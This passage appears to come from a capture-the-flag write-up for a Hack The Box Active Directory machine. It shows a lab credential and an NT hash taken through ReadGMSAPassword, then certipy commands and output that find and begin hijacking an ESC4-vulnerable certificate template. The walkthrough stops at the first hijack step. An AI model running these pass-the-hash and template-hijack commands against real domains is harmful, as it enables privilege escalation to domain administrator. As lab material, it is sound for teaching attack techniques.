 ```
lan_managment:l@n_M@an!1331
```

## LM: lan_managment → infiltrator_svc$

After reviewing the BloodHound data, we see that the `lan_managment` user has the `ReadGMSAPassword` edge on the `infiltrator_svc$` service account:

![image.png](image%2058.png)

We use `nxc` to retreive the NT hash of the `infiltrator_svc$` service account:

![image.png](image%2059.png)

```
infiltrator_svc$:653b2726881d6e5e9ae3690950f9bcc4
```

## LM: infiltrator_svc$ → Administrator

After reviewing the BloodHound data, we see that the `infiltrator_svc$` service account can perform an **ESC4** attack:

![image.png](image%2060.png)

We use `certipy` to enumerate vulnerable certificate templates and confirm that this account can enroll the `Infiltrator_Template` template, which is vulnerable to the **ESC4** vulnerability:

```bash
certipy find -vulnerable \
-u 'infiltrator_svc$@tombwatcher.htb' -hashes '653b2726881d6e5e9ae3690950f9bcc4' \
-dc-ip 10.10.11.31
```

```
Certificate Templates
  0
    Template Name                       : Infiltrator_Template
    Display Name                        : Infiltrator_Template
    Certificate Authorities             : infiltrator-DC01-CA
<SNIP>
    [+] User ACL Principals             : INFILTRATOR.HTB\infiltrator_svc
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
```

### ESC4 Attack

[ESC4: Template Hijacking](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc4-template-hijacking)

1. **Modifying the Template to a Vulnerable State**:
    
    ```bash
    certipy template \
    -u 'infiltrator_svc$@tombwatcher.htb' -hashes '653b2726881d6e5e9ae3690950f9bcc4' \
    -dc-ip '10.10.11.31' -template 'Infiltrator_Template' \
    -write-default-configuration
    ```
    